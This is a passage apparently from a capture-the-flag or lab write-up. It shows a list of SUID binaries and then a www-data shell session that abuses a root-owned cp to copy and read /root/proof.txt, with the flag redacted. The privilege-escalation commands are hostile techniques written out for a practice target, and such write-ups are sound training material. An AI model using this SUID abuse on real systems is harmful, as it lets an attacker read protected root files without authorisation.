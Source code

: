 ```
/snap/core18/1880/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1880/usr/lib/openssh/ssh-keysign
/snap/core/8689/bin/mount
/snap/core/8689/bin/ping
/snap/core/8689/bin/ping6
/snap/core/8689/bin/su
/snap/core/8689/bin/umount
/snap/core/8689/usr/bin/chfn
/snap/core/8689/usr/bin/chsh
/snap/core/8689/usr/bin/gpasswd
/snap/core/8689/usr/bin/newgrp
/snap/core/8689/usr/bin/passwd
/snap/core/8689/usr/bin/sudo
/snap/core/8689/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8689/usr/lib/openssh/ssh-keysign
/snap/core/8689/usr/lib/snapd/snap-confine
/snap/core/8689/usr/sbin/pppd
/snap/core/9436/bin/mount
/snap/core/9436/bin/ping
/snap/core/9436/bin/ping6
/snap/core/9436/bin/su
/snap/core/9436/bin/umount
/snap/core/9436/usr/bin/chfn
/snap/core/9436/usr/bin/chsh
/snap/core/9436/usr/bin/gpasswd
/snap/core/9436/usr/bin/newgrp
/snap/core/9436/usr/bin/passwd
/snap/core/9436/usr/bin/sudo
/snap/core/9436/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9436/usr/lib/openssh/ssh-keysign
/snap/core/9436/usr/lib/snapd/snap-confine
/snap/core/9436/usr/sbin/pppd
www-data@ubuntu:/$ 

```

- An intresting find is the **cp** program
- This is used to copy files from one directory to another or to the same directory and since
it runs as root we can use it to copy our **proof.txt** from **/root** to our non-superuser readable directory.
```
www-data@ubuntu:/$ ls   
ls
bin    dev   initrd.img      lib64	 mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib	     media	 proc  sbin  swapfile  usr  vmlinuz.old
www-data@ubuntu:/$ cd /root
cd /root
bash: cd: /root: Permission denied
www-data@ubuntu:/$ cp /root/proof.txt proof.txt
cp /root/proof.txt proof.txt
www-data@ubuntu:/$ ls
ls
bin    etc	       lib	   mnt	      root  srv       usr
boot   home	       lib64	   opt	      run   swapfile  var
cdrom  initrd.img      lost+found  proc       sbin  sys       vmlinuz
dev    initrd.img.old  media	   proof.txt  snap  tmp       vmlinuz.old
www-data@ubuntu:/$ cat proof.txt
cat proof.txt
(redacted flag)
www-data@ubuntu:/$ 
```
